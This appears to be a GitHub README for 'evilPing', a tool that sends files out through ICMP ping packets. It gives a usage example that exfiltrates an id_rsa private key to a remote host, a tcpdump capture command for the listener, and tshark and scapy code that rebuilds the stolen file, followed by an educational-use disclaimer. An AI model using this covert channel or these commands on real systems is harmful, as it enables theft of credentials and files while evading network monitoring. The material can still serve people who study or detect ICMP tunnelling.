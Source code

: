 # evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.1.1 -Y icmp.type==8 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only, usage of evilPing for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this program
